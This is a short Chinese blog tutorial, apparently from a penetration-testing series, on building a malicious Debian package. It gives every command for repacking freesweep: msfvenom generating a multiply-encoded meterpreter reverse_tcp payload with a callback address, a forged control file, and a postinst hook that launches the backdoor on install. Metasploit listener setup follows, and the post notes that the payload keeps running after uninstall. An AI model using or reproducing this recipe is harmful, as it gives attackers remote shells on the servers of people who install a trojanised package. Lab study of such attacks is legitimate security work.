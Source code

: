 ```yaml
---
title: "制作恶意deb软件包获取服务器权限"
date: 2020-02-23T20:41:02+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```




Metasploit制作恶意deb软件包获取服务器权限

<!--more-->



## 实验步骤

* 制作恶意软件包使用--download-only 方式下载freesweep软件包不进行安装 

  ~~~
  apt --download-only install freesweep
  ~~~

* 查询下载下来的freesweep软件包并移动到指定目录

  ~~~
   cd /var/cache/apt/archives
   ls | grep freesweep
   mv /var/cache/apt/archives/freesweep_1.0.1-1_amd64.deb /
  ~~~

*  解压freesweep软件包到free目录 

  ~~~
cd /
dpkg -x freesweep_1.0.1-1_amd64.deb free
  ~~~

*  生成恶意代码到软件包源文件中

  ~~~
  msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/shikata_ga_nai  LHOST=192.168.1.130 LPORT=4444 | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/xor_dynamic | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/call4_dword_xor -f elf -o /free/usr/share/freesweep_source
  ~~~

* 创建软件包信息目录 

  ~~~
  mkdir /free/DEBIAN
  ~~~

  ![](http://junmoxiao.org.cn/20200223212844.png)

* 创建软件包信息文件

~~~shell
tee /free/DEBIAN/control << 'EOF'
Package: freesweep 
Version: 0v1
Section: Games and Amusement 
Priority: optional 
Architecture: amd64 
Maintainer: Ubuntu MOTU Developers 
Description: freesweep_source
EOF
~~~

* 创建deb软件包安装后脚本文件，加载后门 

~~~
tee /free/DEBIAN/postinst << 'EOF'
sudo chmod 755 /usr/share/freesweep_source
sudo /usr/share/freesweep_source &  
EOF 
# &是将命令放到后台运行
~~~

* 给脚本文件添加执行权限

~~~
chmod 755 /free/postinst
~~~

* 构建新的deb安装包

  ~~~
  dpkg-deb --build /free/
  # 会在当前目录下生成构建的软件包free.deb,我们当前的目录是/ 
  ~~~

* 启动msf开启监听

~~~
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.130
run
background
~~~

* 目标机安装安装包

  ~~~
  dpkg -i free.deb 
  ~~~

* 目标机删除安装包和卸载软件包 # 恶意软件包被卸载，payload 依旧正常运行

  ~~~
  rm -rf  free.deb
  dpkg -r free
  ~~~

  